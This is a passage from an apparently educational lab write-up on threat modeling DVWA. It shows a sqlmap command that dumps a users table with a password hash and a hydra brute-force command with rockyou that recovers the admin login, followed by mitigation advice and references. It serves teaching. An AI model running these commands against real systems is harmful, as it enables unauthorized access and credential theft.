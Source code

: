\subsection*{6. Step 4: Exploitation}
	extbf{Definition:} Exploitation is the act of leveraging vulnerabilities to gain unauthorized access or extract data\cite{shostack2014}.

	extbf{Exploit SQL injection:}
\begin{verbatim}
$ sqlmap -u "http://192.168.56.101/login.php" --dump
[INFO] fetching database users
Database: dvwa
Table: users
admin | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@dvwa.local
\end{verbatim}

	extbf{Brute-force login:}
\begin{verbatim}
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.101 http-post-form \
"/login.php:username=^USER^&password=^PASS^:F=incorrect"
[80][http-post-form] host: 192.168.56.101   login: admin   password: password
\end{verbatim}

\subsection*{7. Step 5: Mitigation and Hardening}
	extbf{Definition:} Mitigation involves applying security controls to reduce risk and prevent exploitation\cite{uceda2015}.
\begin{itemize}
    \item Patch and update all software components
    \item Enforce strong authentication (MFA, password policy)
    \item Use parameterized queries and ORM to prevent SQL injection
    \item Configure firewalls (e.g., ufw, iptables)
    \item Monitor logs for suspicious activity
    \item Set secure cookie flags (HttpOnly, Secure)
\end{itemize}

\subsection*{8. Lab Summary and Academic Perspective}
This lab demonstrates the end-to-end process of threat modeling, vulnerability discovery, exploitation, and mitigation in a controlled environment. The approach aligns with best practices from OWASP, NIST, and leading security literature\cite{owasp,shostack2014,uceda2015,nist800154}.
For deeper understanding, refer to:
\begin{itemize}
    \item Adam Shostack, "Threat Modeling: Designing for Security" (Wiley, 2014)
    \item Tony UcedaVélez and Marco M. Morana, "Risk Centric Threat Modeling" (Wiley, 2015)
    \item NIST SP 800-154: Guide to Data-Centric System Threat Modeling
    \item OWASP Threat Modeling Cheat Sheet
\end{itemize}
